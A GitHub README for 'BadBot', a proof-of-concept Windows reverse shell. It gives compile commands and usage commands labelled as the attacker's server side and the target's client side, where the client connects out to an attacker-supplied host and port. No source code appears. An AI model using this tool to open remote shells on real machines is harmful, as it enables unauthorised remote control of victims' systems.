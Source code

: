 # BadBot Windows Reverse Shell 🪟

## 📜 Overview

BadBot Windows Reverse Shell is a proof-of-concept tool designed to demonstrate reverse shell capabilities on Windows systems. Use this tool only in a legal and ethical manner. Misuse may result in severe legal consequences.

# Demonstration
<a href="https://gyazo.com/245fd3995dbe86e3a4d54c374fcb6b6b"><img src="https://i.gyazo.com/245fd3995dbe86e3a4d54c374fcb6b6b.gif" alt="Image from Gyazo" width="1918"/></a>

## ✨ Features

- 🌐 Establish a reverse shell connection from a Windows machine
- ⚙️ Supports basic command execution

## 💡 Requirements

- 🖥️ Windows operating system
- 🛠️ Golang / GCC must be installed if you want to compile
- 🌍 Network access to a remote server

## 🚀 Usage

1. **The Server (Attacker's Side)**

    ```bash
    attacker > $ ./BadBot-Server.exe [Port]
    ```

2. **Client (Target's Side)**

    ```bash
    target > $ ./BadBot-Client.exe [Host] [Port]
    ```

## 🔨 Compilation
1. **Server**
   
    ```bash
    $ go build -o BadBot-Server.exe
    ```
2. **Client**

    ```bash
    $ gcc main.c -lws2_32 -Wall -Wextra -Wpedantic -o BadBot-Client.exe

    ```
